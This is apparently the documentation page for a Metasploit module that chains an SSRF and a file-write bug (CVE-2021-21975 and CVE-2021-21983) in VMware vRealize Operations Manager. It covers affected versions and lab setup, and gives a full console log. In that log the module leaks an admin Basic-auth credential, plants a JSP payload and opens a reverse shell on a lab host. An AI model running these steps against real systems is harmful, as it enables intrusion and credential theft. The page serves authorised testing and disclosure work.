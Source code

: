 ## Vulnerable Application

### Description

This module exploits a pre-auth SSRF ([CVE-2021-21975]) and post-auth
file write ([CVE-2021-21983]) in VMware vRealize Operations Manager to
leak admin creds and write/execute a JSP payload.

CVE-2021-21975 affects the `/casa/nodes/thumbprints` endpoint, and
CVE-2021-21983 affects the `/casa/private/config/slice/ha/certificate`
endpoint. Code execution occurs as the `admin` Unix user.

The following vRealize Operations Manager versions are vulnerable:

* 7.0.0
* 7.5.0
* 8.0.0, 8.0.1
* 8.1.0, 8.1.1
* 8.2.0
* 8.3.0

Version 8.3.0 is not exploitable for creds and is therefore not
supported by this module. Tested against 8.0.1.

[CVE-2021-21975]: https://nvd.nist.gov/vuln/detail/CVE-2021-21975
[CVE-2021-21983]: https://nvd.nist.gov/vuln/detail/CVE-2021-21983

### Setup

Import an exploitable vRealize Operations Manager OVA, such as
[vRealize-Operations-Manager-Appliance-8.0.1.15331180_OVF10.ova], into
your desired hypervisor.

[vRealize-Operations-Manager-Appliance-8.0.1.15331180_OVF10.ova]:
https://my.vmware.com/web/vmware/downloads/details?downloadGroup=VROPS-801&productId=940&rPId=40733

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`vRealize Operations Manager < 8.3.0`

## Scenarios

### vRealize Operations Manager 8.0.1

```
msf6 > use exploit/linux/http/vmware_vrops_mgr_ssrf_rce
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > options

Module options (exploit/linux/http/vmware_vrops_mgr_ssrf_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8443             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   vRealize Operations Manager < 8.3.0


msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > set rhosts 192.168.123.185
rhosts => 192.168.123.185
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Starting SSRF server...
[*] Using URL: https://0.0.0.0:8443/XtwOOPWn9SJ7
[*] Local IP: https://192.168.1.65:8443/XtwOOPWn9SJ7
[*] Executing automatic check (disable AutoCheck to override)
[*] Leaking admin creds via SSRF...
[*] 192.168.123.1:8443/XtwOOPWn9SJ7#
[*] 192.168.123.185 connected to SSRF server!
GET /XtwOOPWn9SJ7 HTTP/1.1
Accept: application/xml, application/json
Content-Type: application/json
Accept-Charset: big5, big5-hkscs, cesu-8, euc-jp, euc-kr, gb18030, gb2312, gbk, ibm-thai, ibm00858, ibm01140, ibm01141, ibm01142, ibm01143, ibm01144, ibm01145, ibm01146, ibm01147, ibm01148, ibm01149, ibm037, ibm1026, ibm1047, ibm273, ibm277, ibm278, ibm280, ibm284, ibm285, ibm290, ibm297, ibm420, ibm424, ibm437, ibm500, ibm775, ibm850, ibm852, ibm855, ibm857, ibm860, ibm861, ibm862, ibm863, ibm864, ibm865, ibm866, ibm868, ibm869, ibm870, ibm871, ibm918, iso-2022-cn, iso-2022-jp, iso-2022-jp-2, iso-2022-kr, iso-8859-1, iso-8859-13, iso-8859-15, iso-8859-2, iso-8859-3, iso-8859-4, iso-8859-5, iso-8859-6, iso-8859-7, iso-8859-8, iso-8859-9, jis_x0201, jis_x0212-1990, koi8-r, koi8-u, shift_jis, tis-620, us-ascii, utf-16, utf-16be, utf-16le, utf-32, utf-32be, utf-32le, utf-8, windows-1250, windows-1251, windows-1252, windows-1253, windows-1254, windows-1255, windows-1256, windows-1257, windows-1258, windows-31j, x-big5-hkscs-2001, x-big5-solaris, x-compound_text, x-euc-jp-linux, x-euc-tw, x-eucjp-open, x-ibm1006, x-ibm1025, x-ibm1046, x-ibm1097, x-ibm1098, x-ibm1112, x-ibm1122, x-ibm1123, x-ibm1124, x-ibm1166, x-ibm1364, x-ibm1381, x-ibm1383, x-ibm300, x-ibm33722, x-ibm737, x-ibm833, x-ibm834, x-ibm856, x-ibm874, x-ibm875, x-ibm921, x-ibm922, x-ibm930, x-ibm933, x-ibm935, x-ibm937, x-ibm939, x-ibm942, x-ibm942c, x-ibm943, x-ibm943c, x-ibm948, x-ibm949, x-ibm949c, x-ibm950, x-ibm964, x-ibm970, x-iscii91, x-iso-2022-cn-cns, x-iso-2022-cn-gb, x-iso-8859-11, x-jis0208, x-jisautodetect, x-johab, x-macarabic, x-maccentraleurope, x-maccroatian, x-maccyrillic, x-macdingbat, x-macgreek, x-machebrew, x-maciceland, x-macroman, x-macromania, x-macsymbol, x-macthai, x-macturkish, x-macukraine, x-ms932_0213, x-ms950-hkscs, x-ms950-hkscs-xp, x-mswin-936, x-pck, x-sjis_0213, x-utf-16le-bom, x-utf-32be-bom, x-utf-32le-bom, x-windows-50220, x-windows-50221, x-windows-874, x-windows-949, x-windows-950, x-windows-iso2022jp
X-VSCM-Request-Id: S30000FM
Authorization: Basic bWFpbnRlbmFuY2VBZG1pbjpLWGp3ZWlmZlBIMGNlM3o5RENRb2o3V1I=
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_212
Host: 192.168.123.1:8443
Connection: keep-alive


[+] Successfully leaked admin creds
[*] Authorization: Basic bWFpbnRlbmFuY2VBZG1pbjpLWGp3ZWlmZlBIMGNlM3o5RENRb2o3V1I=
[+] The target is vulnerable.
[*] Writing JSP payload
[*] /usr/lib/vmware-casa/casa-webapp/webapps/casa/0DlEVqGWYr.jsp
[+] Successfully wrote JSP payload
[*] Executing JSP payload
[*] https://192.168.123.185/casa/0DlEVqGWYr.jsp
[+] Successfully executed JSP payload
[+] Deleted /usr/lib/vmware-casa/casa-webapp/webapps/casa/0DlEVqGWYr.jsp
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.185:59260) at 2021-04-11 12:19:21 -0500
[*] Server stopped.

id
uid=1000(admin) gid=1003(admin) groups=1003(admin),0(root),25(apache),28(wheel)
uname -a
Linux vRealizeClusterNode 4.19.69-1.ph3 #1-photon SMP Fri Sep 6 00:00:41 UTC 2019 x86_64 GNU/Linux
```
